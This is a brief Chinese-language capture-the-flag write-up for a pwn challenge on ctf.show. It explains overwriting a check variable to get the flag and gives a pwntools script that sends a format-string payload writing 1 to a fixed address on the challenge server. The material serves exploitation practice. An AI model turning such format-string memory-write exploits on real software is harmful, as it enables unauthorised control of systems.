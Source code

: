 # 挑战简介
覆写某个值满足某条件好像就可以了

# 思路
一个简单检测题，找到check位置并写入true，从而直接得到flag  

```
from pwn import *
from LibcSearcher import *
#context(arch = "amd64",os = 'linux',log_level = 'debug')

context(arch = "i386",os = 'linux',log_level = 'debug')

#io = process("./pwn")

io = remote('pwn.challenge.ctf.show',28300)

elf = ELF('D:\edge 下载\pwn')

offset = 11

check = 0x0804B040

payload = fmtstr_payload(offset, {check:1})

print(payload)

io.sendline(payload)

io.interactive()
```
